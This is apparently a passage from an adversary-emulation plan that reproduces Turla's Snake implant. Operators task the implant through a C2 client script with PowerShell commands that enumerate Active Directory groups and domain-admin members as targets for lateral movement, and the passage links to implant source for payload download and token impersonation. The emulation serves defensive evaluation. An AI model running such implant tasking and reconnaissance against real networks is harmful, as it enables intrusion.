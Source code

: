   * [Generic process execution with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)

### :microscope: Cited Intelligence

* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 15 - Domain Discovery

:microphone: `Voice Track:`

Step 15 emulates Turla using Powershell to perform Active Directory user, group, and computer discovery.

The Snake rootkit receives tasking from the C2 server to use Powershell's `ActiveDirectory` module to enumerate domain users, admin groups, and computers. Upon discovering `Zilvinas`'s regular and domain admin accounts, Snake will enumerate further details on the accounts. Snake then
discovers a workstation belonging to `Zilvinas` to use as a future lateral movement target.

---

### ☣️ Procedures

* From your lower Kali C2 control server terminal window, task Snake to check if the `ActiveDirectory` PowerShell module is installed.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-Module -ListAvailable -Name ActiveDirectory"}'
```

:heavy_exclamation_mark: Verify that you see output. If the implant returns empty output, please contact your lead.

* Wait 1 minute before tasking Snake to collect a list of Active Directory groups containing the word "management",
as members of these groups will likely have elevated permissions on the network.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroup -Filter * | Where-Object Name -Match \"management\" | Select Name"}'
```

:heavy_exclamation_mark: Verify that `Server Management` is included in the results.

* Wait 1 minute before tasking Snake to obtain the usernames of accounts within the `Server Management` domain group. This will instruct Turla on users to target next.

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Import-Module ActiveDirectory; Get-ADGroupMember -Identity \"Server Management\" | Select Name,SamAccountName"}'
```
